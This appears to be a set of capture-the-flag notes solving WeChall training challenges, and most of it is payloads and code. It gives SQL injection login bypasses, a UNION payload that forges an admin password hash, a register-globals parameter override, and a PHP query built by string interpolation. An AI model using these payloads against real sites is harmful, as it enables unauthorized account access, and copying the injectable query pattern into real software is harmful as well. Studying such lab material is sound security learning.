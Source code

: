 ```
username=admin'or'1'='1
username=admin' --
```


### Training: MySQL II (MySQL, Exploit, Training)
```php
    $query = "SELECT * FROM users WHERE username='$username'";
    if (false === ($result = $db->queryFirst($query))) {
		return false;
	}
	### This is the new check ###
	if ($result['password'] !== $password) {
		return false;
	} #  End of the new code  ###
```

md5(NULL) = d41d8cd98f00b204e9800998ecf8427e

```
username=1' union select 1,'admin','d41d8cd98f00b204e9800998ecf8427e&password=
```


### Training: WWW-Basics (HTTP, Training)
Server:
python: BaseHTTPServer

```nc
while true; do (echo -e 'HTTP/1.1 200 OK\r\n'; echo -e "My name is Ranger and iChall.\c") | nc -l localhost 6666; done
```

Client:
python: requests
```curl
curl -b cookie.file -c cookie.file -X POST -d "username=Ranger" -d "password=********" -d "login=Login" http://www.wechall.net/login

curl -b cookie.file -c cookie.file -X POST -d "port=80&go=" http://www.wechall.net/challenge/training/www/basic/index.php
```

### Training: Register Globals (Exploit, PHP, Training)
```html
if (isset($login))
{
    ...
    if (strtolower($login[0]) === 'admin') {
```

```
...&login[0]=admin
```

